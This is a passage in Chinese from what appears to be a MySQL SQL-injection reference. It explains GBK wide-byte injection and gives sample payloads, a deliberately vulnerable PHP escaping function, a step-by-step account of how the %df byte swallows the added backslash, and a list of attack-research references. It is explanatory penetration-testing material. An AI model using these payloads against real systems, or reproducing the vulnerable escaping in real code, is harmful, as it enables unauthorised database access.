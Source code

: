 可以创建许多负载，例如：

```sql
%A8%27 OR 1=1;--
%8C%A8%27 OR 1=1--
%bf' OR 1=1 -- --
```

以下是一个使用GBK编码并过滤用户输入以转义反斜杠、单引号和双引号的PHP示例。

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //转义任何反斜杠
    $string = preg_replace('/\'/i', '\\\'', $string);                               //用反斜杠转义单引号
    $string = preg_replace('/\"/', "\\\"", $string);                                //用反斜杠转义双引号
      
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

以下是宽字节注入的工作原理：

例如，如果输入是 `?id=1'`，PHP将添加一个反斜杠，导致SQL查询变为：`SELECT * FROM users WHERE id='1\'' LIMIT 0,1`。

然而，当在单引号前引入序列 `%df`，如 `?id=1%df'`，PHP仍然添加反斜杠。这导致SQL查询变为：`SELECT * FROM users WHERE id='1%df\'' LIMIT 0,1`。 

在GBK字符集中，序列 `%df%5c` 转换为字符 `連`。因此，SQL查询变为：`SELECT * FROM users WHERE id='1連'' LIMIT 0,1`。在这里，宽字节字符 `連` 有效地“吃掉”了添加的转义字符，允许进行SQL注入。

因此，使用负载 `?id=1%df' and 1=1 --+`，在PHP添加反斜杠后，SQL查询变为：`SELECT * FROM users WHERE id='1連' and 1=1 --+' LIMIT 0,1`。这个修改后的查询可以成功注入，绕过预期的SQL逻辑。


## 参考文献

- [[SQLi] 在不知道列名的情况下提取数据 - Ahmed Sultan - 2019年2月9日](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/) 
- [MySQL中的科学记数法漏洞使AWS WAF客户易受SQL注入攻击 - Marc Olivier Bergeron - 2021年10月19日](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/) 
- [MySQL中Information_Schema.Tables的替代方案 - Osanda Malith Jayathissa - 2017年2月3日](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/) 
- [Ekoparty CTF 2016 (Web 100) - p4-team - 2016年10月26日](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100) 
- [基于错误的注入 | NetSPI SQL注入维基 - NetSPI - 2021年2月15日](https://sqlwiki.netspi.com/injectionTypes/errorBased) 
- [如何使用SQL调用保护您的网站 - IPA ISEC - 2010年3月](https://www.ipa.go.jp/security/vuln/ps6vr70000011hc4-att/000017321.pdf) 
- [MySQL带外攻击 - Osanda Malith Jayathissa - 2018年2月23日](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf) 
- [SQL截断攻击 - Rohit Shaw - 2014年6月29日](https://resources.infosecinstitute.com/sql-truncation-attack/) 
- [SQLi过滤规避备忘单 (MySQL) - Johannes Dahse - 2010年12月4日](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/) 
- [SQL注入知识库 - Roberto Salgado - 2013年5月29日](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)
